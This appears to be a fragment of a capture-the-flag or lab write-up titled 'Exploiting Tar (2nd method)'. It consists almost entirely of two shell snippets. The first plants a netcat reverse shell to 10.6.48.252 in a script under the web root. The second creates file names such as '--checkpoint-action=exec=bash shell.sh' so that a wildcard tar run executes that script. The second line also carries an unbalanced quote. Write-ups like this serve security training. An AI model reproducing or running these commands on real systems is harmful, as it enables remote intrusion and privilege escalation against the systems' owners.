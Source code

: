 - - -
## Exploiting Tar ( 2nd method   : 

```sh
printf 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.48.252 4545 >/tmp/f' > /var/www/html/shell.sh ; chmod +x /var/www/html/shell.sh
```


```sh
touch "/var/www/html/--checkpoint=1" ; touch /var/www/html/--checkpoint-action=exec=bash\ shell.sh"
```


- - -

